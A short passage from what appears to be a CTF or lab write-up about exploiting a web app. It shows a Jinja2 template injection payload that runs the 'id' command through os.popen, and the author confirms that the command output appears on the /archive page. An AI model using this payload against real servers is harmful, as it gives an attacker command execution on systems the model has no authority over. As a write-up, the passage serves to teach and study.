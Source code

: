 ![](./IMG/30.png)

> Then tried the following payload which should work for jinja2

```
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

![](./IMG/31.png)

> Then confirm the result in /archive.
> It works, I got the current user's id information .

![](./IMG/32.png)